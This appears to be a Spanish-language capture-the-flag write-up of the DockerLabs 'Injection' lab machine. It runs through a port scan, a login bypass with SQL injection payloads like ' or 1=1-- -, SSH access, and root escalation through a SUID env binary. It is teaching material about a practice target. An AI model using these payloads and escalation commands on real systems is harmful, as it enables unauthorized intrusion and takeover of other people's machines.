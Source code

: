 ```yaml
---
layout: post
title: "Injection"
date: 2024-07-01 11:05:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Injection </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="reeasy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/injection/host.png){:.margin}

**1\.** Escaneando puertos y servicios de la maquina.

`sudo nmap -p- -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/nmap.png){:.margin}

**2\.** Por el servicio apache encontramos un panel login.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/80.png){:.margin}

**3\.** Intento provocar un error en la query, ya sabiendo que se acontece una injection sql, bypasseo el login.

`' or 1=1`

`'or 1=1-- -`

![img](/notas/public/img/dockerlabs/injection/errordb.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginor.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginok.png){:.margin}

**4\.** Me conecto por ssh como dylan.

`ssh dylan@172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/sshdylan.png){:.margin}

**5\.** Busco binarios SUID.

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/dockerlabs/injection/find.png){:.margin}

**6\.** Escalando privilegios, podemos aprovechar el binario env si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid).

`/usr/bin/env /bin/bash -p`

![img](/notas/public/img/dockerlabs/injection/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>